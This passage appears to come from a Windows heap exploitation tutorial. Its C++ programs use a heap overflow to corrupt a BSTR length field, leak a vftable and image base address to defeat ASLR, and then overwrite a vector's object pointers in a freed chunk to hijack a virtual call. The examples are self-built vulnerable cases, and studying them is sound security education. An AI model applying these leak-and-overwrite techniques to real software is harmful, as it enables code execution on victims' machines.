    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "CCCCDDDD"
    "\xff\x00\x00\x00";
  memcpy(allocations[2], evilString, sizeof(evilString));
  strSize = SysStringByteLen(bStrings[0]);
  printf("Modified String size: %d\n", (int) strSize);

  std::wstring ws(bStrings[0], strSize);
  std::wstring ref = ws.substr(120+16, 4);
  char buf[4];
  memcpy(buf, ref.data(), 4);
  int refAddr = int((unsigned char)(buf[3]) << 24 | (unsigned char)(buf[2]) << 16 | (unsigned char)(buf[1]) << 8 | (unsigned char)(buf[0]));
  memcpy(buf, (void*) refAddr, 4);
  int vftable = int((unsigned char)(buf[3]) << 24 | (unsigned char)(buf[2]) << 16 | (unsigned char)(buf[1]) << 8 | (unsigned char)(buf[0]));
  printf("Found vftable address : 0x%08x\n", vftable);
  int baseAddr = vftable - 0x0003a490;
  printf("====================================\n");
  printf("Image base address is : 0x%08x\n", baseAddr);
  printf("====================================\n");

  system("PAUSE");

  return 0;
}
```

And FINALLY, let's witness the sweet victory:



### After the leak

By leaking the vftable and image address, exploiting the application at this point would be a lot like the pre-[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) era, with the only thing left that stands between you and a shell is DEP. You can easily collect some ROP gadgets utilizing the leak, defeat DEP, and get the exploit to work.

One thing to keep in mind is that no matter what DLL (image) you choose to collect the ROP gadgets, there may be multiple versions of that DLL that are used by end users around the world. There are ways to overcome this. For example, you could write something that scans the image for the ROP gadgets you need. Or, you could collect all the versions you can find for that DLL, create ROPs for them, and then use the leak to check which version of DLL your exploit is using, and then return the ROP chain accordingly. Other methods are also possible.

## Arbitrary code execution

Now that we are done with the leak, we are one big step closer to get arbitrary code execution. If you managed to read through the process on how to use a heap overflow to leak data, this part isn't such a stranger to you after all. Although there are multiple ways to approach this problem, we can actually borrow the same idea from the leak technique and get an exploitable crash. One of the magic tricks lies within the behavior of a vector.

In C++, a vector is a dynamic array that grows or shrinks automatically. A basic example looks like this:

```c
int main(int args, char** argv) {
  vector v;
  v.push_back("Hello World!");
  cout << v.at(0) << endl;
  return 0;
}
```

It is a wonderful tool for exploits because of the way it allows us to create an arbitrary sized array that contains pointers we control. It also saves the content on the heap, so that means you can use this to make heap allocations, something you already have seen in the information leak examples.

Borrowing this idea, we could come up with a strategy like this:

1. Create an object.
2. Similar to the leak setup, allocate some chunks no more than 18 (to avoid LFH).
3. Free one of the chunks (somewhere between the 2nd or the 16th)
4. Create 10 vectors. Each is filled with pointers to the same object. You may need to play with the size to figure out exactly how big the vectors should be. Hopefully, the content from one of the vectors will take over the freed chunk.
5. Overflow the chunk that's found before the freed one.
6. Use the object that the vector holds.

The implementation of the above strategy looks something like this:

```cpp
#define CHUNK_SIZE 0x190
#define ALLOC_COUNT 10

class SomeObject {
public:
  void function1() {
  };
  virtual void virtualFunction() {
    printf("test\n");
  };
};

int main(int args, char** argv) {
  int i;
  HANDLE hChunk;
  void* allocations[ALLOC_COUNT];
  SomeObject* objects[5];
  SomeObject* obj = new SomeObject();
  printf("SomeObject address : 0x%08x\n", obj);
  int vectorSize = 40;

  HANDLE defaultHeap = GetProcessHeap();

  for (i = 0; i < ALLOC_COUNT; i++) {
    hChunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    memset(hChunk, 'A', CHUNK_SIZE);
    allocations[i] = hChunk;
    printf("[%d] Heap chunk in backend : 0x%08x\n", i, hChunk);
  }

  HeapFree(defaultHeap, HEAP_NO_SERIALIZE, allocations[3]);
  vector v1(vectorSize, obj);
  vector v2(vectorSize, obj);
  vector v3(vectorSize, obj);
  vector v4(vectorSize, obj);
  vector v5(vectorSize, obj);
  vector v6(vectorSize, obj);
  vector v7(vectorSize, obj);
  vector v8(vectorSize, obj);
  vector v9(vectorSize, obj);
  vector v10(vectorSize, obj);

  printf("vector : 0x%08x\n", v1);
  printf("vector : 0x%08x\n", v2);
  printf("vector : 0x%08x\n", v3);
  printf("vector : 0x%08x\n", v4);
  printf("vector : 0x%08x\n", v5);
  printf("vector : 0x%08x\n", v6);
  printf("vector : 0x%08x\n", v7);
  printf("vector : 0x%08x\n", v8);
  printf("vector : 0x%08x\n", v9);
  printf("vector : 0x%08x\n", v10);

  memset(allocations[2], 'B', CHUNK_SIZE + 8 + 32);
  v1.at(0)->virtualFunction();
  system("PAUSE");
  return 0;
}
```

Since the content of the vector (that fell into the hole) is overwritten with data we control, if there is some function that wants to use it (which expects to print "test"), we end up getting a good crash that is exploitable, which can be chained with the information leak to build a full-blown exploit.



## Summary

Modern heap exploitation is a fascinating and difficult subject to master. It takes a lot of time and effort to reverse engineer the internals of the application before you know what you can leverage to instrument the corruption. Most of us can be easily overwhelmed by this, and sometimes we end up feeling like we know almost nothing about the subject. However, since most memory corruption problems are based on C/C++, you can build your own vulnerable cases to experience them. That way, when you face a real CVE, it is no longer a scary topic: You know how to identify the primitives, and you have given yourself a shot at exploiting the CVE.

And maybe, one day when you discover something cool, give back to the community that taught you how to be where you are today.
